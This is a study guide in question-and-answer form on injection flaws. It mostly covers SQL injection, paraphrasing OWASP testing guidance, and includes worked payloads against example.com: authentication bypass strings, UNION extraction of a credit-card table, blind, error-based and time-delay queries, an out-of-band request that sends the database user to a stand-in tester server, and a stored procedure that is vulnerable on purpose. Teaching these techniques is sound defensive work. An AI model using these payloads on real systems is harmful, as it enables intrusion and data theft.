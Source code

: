 # Injection

## Links
[OWASP: injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)

[SAST](https://owasp.org/www-community/Source_Code_Analysis_Tools)

[DAST](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

[Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

[Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)

## Questions

<details>
  <summary>What is the injection?</summary>

  It is possible to inject data into almost all sources. Injection flaws occur when an attacker can send hostile data. Injection vulnerabilities are very prevalent, particularly in legacy code. SQL, LDAP, XPath or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages and ORM queries often are vulnerable to injection. The injection can result in data loss, corruption, disclosure to unauthorized parties, loss of accountability, or denial of access. Also, the injection can sometimes lead to a complete host takeover.

</details>

<details>
  <summary>When is an application is vulnerable?</summary>

  * when user-supplied data is not validated, filtered, or sanitized by the application;

  * when dynamic queries or non-parameterized calls without context-aware escaping are used directly in the interpreter;

  * when using hostile data within object-relational mapping (ORM) search parameters to extract additional, sensitive records;

  * when the SQL or command contains both structure and hostile data in dynamic queries, commands, or stored procedures (directly using).

</details>

<details>
  <summary>How to prevent injection?</summary>

  * Use a safe API, which avoids direct using an interpreter entity or provides a parameterized interface or uses Object Relational Mapping Tools (ORMs);

  * Use a positive serverside input validation;

  * Escape special characters for dynamic queries; 

  * Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection.

</details>

<details>
  <summary>What tools could help to avoid injection?</summary>

  * Static Application Security Testing (SAST)
  
  * Dynamic Application Security Testing (DAST)

</details>

<details>
  <summary>What are the criteria for secure database access?</summary>

  * secure queries:

  SQL Injection occurs when untrusted user input is dynamically added to a SQL query in an insecure manner, often via basic string concatenation. An attacker can get a foothold on your network by it. The best way of protection is using a programming technique known as query Parameterization. It allows the database to distinguish between code and data.

  * secure configuration:

  It is possible to use a secure database configuration. Need to be sure that security controls are available from the Database Management System and hosting platform is enabled and properly configured.

  * secure authentication:

  Authentication should take place only over a secure channel.

  * secure communication:

  Most DBMS support a set of communications methods - secure and insecure. It is a good practice to use secure communications options.

</details>

<details>
  <summary>What is the ASVS(Application Security Verification Standard)?</summary>

  The ASVS provides a basis for testing web application technical security controls and provides developers with a list of requirements for secure development. The requirements are following objectives in mind:

  * Use as a metric: provide application developers and application owners with a yardstick that allows assessing the degree of trust in your application;

  * Use as guidance: guide security control developers as to what to build into security controls to satisfy application security requirements;

  * Use during procurement: provide a basis for specifying application security verification requirements in contracts.

</details>

<details>
  <summary>What are classes of the SQL injection?</summary>

  Inband(inside): extract data by the same channel as for injection of the SQL code.
  
  Out-of-band(outside): data is retrieved using a different channel.
  
  Inferential or Blind: there is no actual transfer of data, but the tester can reconstruct the information by sending particular requests and observing the resulting behaviour of the DB Server.

</details>

<details>
  <summary>What are SQL injection techniques?</summary>

  It is possible to use five general techniques or their combinations.

  Union Operator: use when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set;

  Boolean: use Boolean condition(s) to verify whether certain conditions are true or false;

  Error based: this technique forces the database to generate an error, giving the attacker or taster information which to refine their injection;

  Out-of-band: the technique used to retrieve data using a different channel;

  Time delay: use database commands to delay answers in conditional queries. It is useful when an application doesn't provide results, outputs or errors to an attacker.

</details>

<details>
  <summary>What are detection techniques?</summary>

  Firstly need to understand when the application interacts with a DB Server to access some data. Typical examples:

  Authentication forms: if authentication uses a web form, generally, an application will check user credentials;

  Search engines: if the SQL query extracts all relevant records from a database, it will be possible to use submitted string;

  E-Commerce sites: the products and their characteristics are very likely to be stored in a database.

  The tester should check by an input fields list whose values could be used in SQL queries separately.

</details>

<details>
  <summary>What is standard SQL injection testing (Classic SQL injection)?</summary>

  Consider the following SQL query:
  
  `SELECT * FROM Users WHERE Username='$username' AND Password='$password'`

  Suppose we insert the following Username and Password values:

  `$username = 1' or '1' = '1`

  `$password = 1' or '1' = '1`

  The query will be:

  `SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1'`

  If the values was sent by the GET method and if the domain was `www.example.com`, the request would be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&amp;password=1'%20or%20'1'%20=%20'1`

  After a short analysis, we notice that the query returns a value (or a set of values) because the condition has a successful result (OR 1=1).

  Another example query is the following:

  `SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))`

  The query has two problems: the parentheses and the MD5 hash function. The values could be:

  `$username = 1' or '1' = '1'))/*`

  `$password = foo`

  In this way, we’ll get the following query:

  `SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))`

  (Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.)
  The request URL will be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo`

  It may return many values. Sometimes, the authentication code verifies that the number of returned records/results is equal to 1. Could be use next values:

  `$username = 1' or '1' = '1')) LIMIT 1/*`

  `$password = foo`

  In this way, we create a request like the following:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo`

</details>

<details>
  <summary>What is standard SQL injection testing (SELECT Statement)?</summary>

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. It is possible to try to use the AND and OR operators.

  Consider the request:

  `http://www.example.com/product.php?id=10 AND 1=2`

  `SELECT * FROM products WHERE id_product=10 AND 1=2`

  In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result:

  `http://www.example.com/product.php?id=10 AND 1=1`

</details>

<details>
  <summary>What is standard SQL injection testing (Stacked Queries)?</summary>

  If an application uses the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) will be possible to execute multiple queries in one call.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  A way to exploit the above scenario would be:

  `http://www.example.com/product.php?id=10; INSERT INTO users (…)`

  This way is possible to execute many queries in a row and independent of the first query.

</details>

<details>
  <summary>How understand what backend database uses?</summary>

  The first way to find out what back end database uses is by observing the error returned by the application. The following are some examples of error messages:

  MySql:

    You have an error in your SQL syntax; check the manual
    that corresponds to your MySQL server version for the
    right syntax to use near '\'' at line 1

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1,1`

  Oracle:

    ORA-00933: SQL command not properly ended
    MS SQL Server:
    Microsoft SQL Native Client error ‘80040e14’
    Unclosed quotation mark after the character string

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, @@version limit 1, 1`

  PostgreSQL:

    Query failed: ERROR: syntax error at or near
    "’" at character 56 in /www/site/test.php on line 121.

  If there is no error message or a custom error message, the tester can inject it into string fields using varying concatenation techniques.

</details>

<details>
  <summary>How understand what backend database uses (Union Exploitation Technique)?</summary>

  The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original one. It allows obtaining values from other tables. Look at the following example:

  `SELECT Name, Phone, Address FROM Users WHERE Id=$id`

  We will set the following $id value:

  `$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  We will have the following query:

  `SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected two other values. They allow avoiding a syntax error.

  The first detail a tester needs to exploit the SQL injection vulnerability using the technique is to find the correct numbers of columns in the SELECT statement.

  The tester can use ORDER BY clause followed by a number indicating the numeration of the column selected:

  `http://www.example.com/product.php?id=10 ORDER BY 10--`

  After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were three columns in the example above, the tester could try each column type, using the NULL value to help them:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,null,null--`

  If the query fails, the tester will probably see a message like:

    All cells in a column must have the same datatype
    If the query executes with success, the first column can be an integer. Then the tester can move further and so on:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,1,null--`

  After gathering successful information, the application may only show one line of the result because the application treats only the first line. It is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid:

  `http://www.example.com/product.php?id=99999 UNION SELECT 1,1,null--`

</details>

<details>
  <summary>How understand what backend database uses (Boolean Exploitation Technique)?</summary>

  The technique is well during blind SQL Injection if the tester cannot get information about a database from an outcome. For example, if a programmer has created a custom error page that does not provide information from a database.

  The method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. Consider the www.example.com domain and suppose that it contains a parameter named id vulnerable to SQL injection. It means that carrying out the following request:

  `http://www.example.com/index.php?id=1'`

  Suppose that the database query would be:

  `SELECT field1, field2, field3 FROM Users WHERE Id='$Id'`

  The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. It is possible to present in practically every database using some standard functions. For our examples:

  * SUBSTRING (text, start, length);
  * ASCII (char);
  * LENGTH (text).

  As an example, we will use the following value for Id:

  `$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1`

  That creates the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1'`

  The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. But it could be a problem to understand which way could distinguish tests returning a true value from those that return false. Create the query that always returns true:

  `$Id=1' AND '1' = '2`

  Which will create the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' = '2'`

  It is possible to get length of the field:

  `$Id=1' AND LENGTH(username)=N AND '1' = '1`

  Where N is the number of characters that we have analyzed up to now:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'`

  The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

</details>

<details>
  <summary>How understand what backend database uses (Error Based Exploitation Technique)?</summary>

  The technique could be used by a tester when he cannot use one of the other techniques. The point is data extraction from the database by error messages.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. Oracle 10g):

  `http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

  In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the hostname of the parameter passed to it, which is another query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

  `ORA-292257: host SCOTT unknown`

  Then the tester can manipulate the parameter passed to GET_HOST_NAME() function and the result will be shown in the error message.

</details>

<details>
  <summary>How understand what backend database uses (Out of Band Exploitation Technique)?</summary>

  The technique consists of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be:

  `http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

  UTL_HTTP.request function will try to connect to the fake server and make an HTTP GET request containing the return from the query: SELECT user FROM DUAL.

</details>

<details>
  <summary>How understand what backend database uses (Time Delay Exploitation Technique)?</summary>

  The technique consists in sending an injected query. If the conditional was true, the tester would monitor the server response time. 

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. MySql 5.x):

  `http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

  In this example the tester checks whether the MySql version is 5.x or not, making the server sleep for 10 seconds. The tester can increase the delay time and monitor the responses.

</details>

<details>
  <summary>What is a stored procedure injection?</summary>

  When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.
  
  Consider the following SQL Server Stored Procedure:
  
    Create procedure user_login @username varchar(20), @passwd varchar(20)
    As
    Declare @sqlstring varchar(250)
    Set @sqlstring  = ‘
    Select 1 from users
    Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
    exec(@sqlstring)
    Go
  
  User input:
  
  `anyusername or 1=1'`
  
  `anypassword`
  
  This procedure does not sanitize the input and allow the return value to show an existing record with these parameters.

</details>

<details>
  <summary>What is OS command injection?</summary>

  OS command injection is a technique used via a web interface to execute OS commands on a web server. Any web interface that does not sanitize data is subject to this exploit.

</details>
